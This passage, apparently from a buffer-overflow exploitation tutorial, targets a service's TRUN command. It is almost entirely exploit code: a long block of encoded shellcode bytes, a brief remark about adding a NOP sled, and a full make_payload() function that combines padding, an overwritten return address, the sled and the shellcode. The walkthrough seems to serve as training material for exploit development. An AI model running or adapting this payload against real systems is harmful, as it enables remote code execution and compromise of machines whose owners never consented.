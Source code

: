 ```python
    buf += b"\xa1\x59\x8f\xfd\x4f\x8d\xa2\x5f\x07\x62\x8f\x5f\xd7"
    buf += b"\xec\x98\x2c\xe5\xb3\x32\xbb\x45\x3b\x9d\x3c\xdc\x2b"
    buf += b"\x1e\x92\x66\x3b\xe0\x13\x96\x15\x27\x47\xc6\x0d\x8e"
    buf += b"\xe8\x8d\xcd\x2f\x3d\x3b\xc4\xa7\x7e\x13\xd9\x77\x17"
    buf += b"\x61\xda\x66\xbb\xec\x3c\xd8\x13\xbe\x90\x99\xc3\x7e"
    buf += b"\x41\x72\x0e\x71\xbe\x62\x31\x58\xd7\x09\xde\x34\x8f"
    buf += b"\xa5\x47\x1d\x5b\x57\x87\x88\x21\x57\x03\x38\xd5\x16"
    buf += b"\xe4\x49\xc5\x4f\x93\xb1\x15\x90\x36\xb1\x7f\x94\x90"
    buf += b"\xe6\x17\x96\xc5\xc0\xb7\x69\x20\x53\xbf\x96\xb5\x65"
    buf += b"\xcb\xa1\x23\xc9\xa3\xcd\xa3\xc9\x33\x98\xa9\xc9\x5b"
    buf += b"\x7c\x8a\x9a\x7e\x83\x07\x8f\xd2\x16\xa8\xf9\x87\xb1"
    buf += b"\xc0\x07\xf1\xf6\x4e\xf8\xd4\x84\x89\x06\xaa\xa2\x31"
    buf += b"\x6e\x54\xf3\xc1\x6e\x3e\xf3\x91\x06\xb5\xdc\x1e\xe6"
    buf += b"\x36\xf7\x76\x6e\xbc\x96\x35\x0f\xc1\xb2\x98\x91\xc2"
    buf += b"\x31\x01\x22\xb8\x3a\xb6\xc3\x3d\x53\xd3\xc4\x3d\x5b"
    buf += b"\xe5\xf9\xeb\x62\x93\x3c\x28\xd1\xac\x0b\x0d\x70\x27"
    buf += b"\x73\x01\x82\x62"
```

The final part is to add a small NOP sled (0x90) just to make sure we land in our shellcode without any issues.

Our final payload before running looks like this:

```python
def make_payload():
    prepend = b"TRUN /.:/"
    pattern = b"A"*2003
    eip = b"\xaf\x11\x50\x62"
    buf =  b""
    buf += b"\xb8\xe2\x5c\x98\xde\xdb\xcb\xd9\x74\x24\xf4\x5a\x33"
    buf += b"\xc9\xb1\x56\x31\x42\x13\x03\x42\x13\x83\xea\x1e\xbe"
    buf += b"\x6d\x22\x36\xbd\x8e\xdb\xc6\xa2\x07\x3e\xf7\xe2\x7c"
    buf += b"\x4a\xa7\xd2\xf7\x1e\x4b\x98\x5a\x8b\xd8\xec\x72\xbc"
    buf += b"\x69\x5a\xa5\xf3\x6a\xf7\x95\x92\xe8\x0a\xca\x74\xd1"
    buf += b"\xc4\x1f\x74\x16\x38\xed\x24\xcf\x36\x40\xd9\x64\x02"
    buf += b"\x59\x52\x36\x82\xd9\x87\x8e\xa5\xc8\x19\x85\xff\xca"
    buf += b"\x98\x4a\x74\x43\x83\x8f\xb1\x1d\x38\x7b\x4d\x9c\xe8"
    buf += b"\xb2\xae\x33\xd5\x7b\x5d\x4d\x11\xbb\xbe\x38\x6b\xb8"
    buf += b"\x43\x3b\xa8\xc3\x9f\xce\x2b\x63\x6b\x68\x90\x92\xb8"
    buf += b"\xef\x53\x98\x75\x7b\x3b\xbc\x88\xa8\x37\xb8\x01\x4f"
    buf += b"\x98\x49\x51\x74\x3c\x12\x01\x15\x65\xfe\xe4\x2a\x75"
    buf += b"\xa1\x59\x8f\xfd\x4f\x8d\xa2\x5f\x07\x62\x8f\x5f\xd7"
    buf += b"\xec\x98\x2c\xe5\xb3\x32\xbb\x45\x3b\x9d\x3c\xdc\x2b"
    buf += b"\x1e\x92\x66\x3b\xe0\x13\x96\x15\x27\x47\xc6\x0d\x8e"
    buf += b"\xe8\x8d\xcd\x2f\x3d\x3b\xc4\xa7\x7e\x13\xd9\x77\x17"
    buf += b"\x61\xda\x66\xbb\xec\x3c\xd8\x13\xbe\x90\x99\xc3\x7e"
    buf += b"\x41\x72\x0e\x71\xbe\x62\x31\x58\xd7\x09\xde\x34\x8f"
    buf += b"\xa5\x47\x1d\x5b\x57\x87\x88\x21\x57\x03\x38\xd5\x16"
    buf += b"\xe4\x49\xc5\x4f\x93\xb1\x15\x90\x36\xb1\x7f\x94\x90"
    buf += b"\xe6\x17\x96\xc5\xc0\xb7\x69\x20\x53\xbf\x96\xb5\x65"
    buf += b"\xcb\xa1\x23\xc9\xa3\xcd\xa3\xc9\x33\x98\xa9\xc9\x5b"
    buf += b"\x7c\x8a\x9a\x7e\x83\x07\x8f\xd2\x16\xa8\xf9\x87\xb1"
    buf += b"\xc0\x07\xf1\xf6\x4e\xf8\xd4\x84\x89\x06\xaa\xa2\x31"
    buf += b"\x6e\x54\xf3\xc1\x6e\x3e\xf3\x91\x06\xb5\xdc\x1e\xe6"
    buf += b"\x36\xf7\x76\x6e\xbc\x96\x35\x0f\xc1\xb2\x98\x91\xc2"
    buf += b"\x31\x01\x22\xb8\x3a\xb6\xc3\x3d\x53\xd3\xc4\x3d\x5b"
    buf += b"\xe5\xf9\xeb\x62\x93\x3c\x28\xd1\xac\x0b\x0d\x70\x27"
    buf += b"\x73\x01\x82\x62"
    nopsled = b'\x90'*100
    buffer_space = 5000 - len(pattern) - len(eip) - len(nopsled) - len(buf)
    payload_struct = pattern + eip +  nopsled + buf + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
```
